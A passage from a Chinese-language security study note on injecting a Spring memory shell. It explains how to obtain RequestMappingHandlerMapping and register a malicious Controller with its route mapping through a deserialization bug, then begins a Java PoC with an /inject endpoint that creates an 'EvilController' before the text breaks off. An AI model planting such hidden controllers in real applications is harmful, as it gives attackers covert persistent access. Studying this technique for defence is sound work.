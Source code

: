 ### 2.4 `AbstractHandlerMethodMapping` 的获取 -- 以完成注册

1. 上文提到需要寻找 Spring 对外提供的注册方法，这个注册方法可以定位到 `AbstractHandlerMethodMapping` 或者是它实际的实现类 `RequestMappingHandlerMapping`。不过在探讨具体的对外注册方法之前，我们需要先探讨如何才能一个一般的上下文中获取到这两个类。

2. 目前所了解的文章都是从 Spring 中的 BeanFactory 中获取，也就是调用 `BeanFactory.getBean(RequestMappingHandlerMapping.class)`，那么就要反思：为什么想到从 BeanFactory 中获取？TODO 目前个人的想法是最初想到这个的人是对 Spring 了解透彻，通过经验判断出这个类是 Bean，由 Spring IOC 容器管理。

3. 所以最终的问题就是如何获取到特定的上下文 Context 呢？同时这个 BeanFactory 和 Context 的关系又是什么？
    思路具体参考：

    > https://landgrey.me/blog/12/

### 2.5 初步的 PoC 编写

1. 至此，Controller 的创建、注册和路由映射的过程基本结束。对每个部分做一个大概的思路总结：
    1. 恶意 Kick-Off 创建：假设现在存在一个反序列化漏洞，那么我首先需要有一个恶意 kickoff，当其被反序列化时，它要完成**恶意 Controller 实例创建、注册以及路由映射**三个部分。
    2. Controller 实例创建可以通过字节码反射创建，当然也可以在同一个包下直接创建。
    3. Controller 的注册通过注册中心 `MappingRegistry` 的 `register()`，然后其路由映射则是通过 `RequestMappingInfo` 来实现。`RequestMappingInfo` 的创建可以追溯到 `MappingRegistry#register()`。
2. 初步的 PoC 构造如下：
    ```java
    package com.endlessshw.springapi.controller;
    
    import com.endlessshw.springapi.MainConfiguration;
    import com.endlessshw.springapi.bean.User;
    import com.endlessshw.springapi.util.SerUtil;
    import org.springframework.context.ApplicationContext;
    import org.springframework.context.annotation.AnnotationConfigApplicationContext;
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMethod;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.context.WebApplicationContext;
    import org.springframework.web.context.request.RequestContextHolder;
    import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
    import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
    
    import java.io.BufferedReader;
    import java.io.InputStream;
    import java.io.InputStreamReader;
    import java.lang.reflect.Method;
    import java.nio.charset.Charset;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 靶场
     * @date 2025/1/18 22:30
     */
    @Controller
    public class TargetController {
        @ResponseBody
        @GetMapping("/inject")
        public String inject(){
            // 1. 恶意 Controller 实例化
            EvilController evilController = new EvilController();
    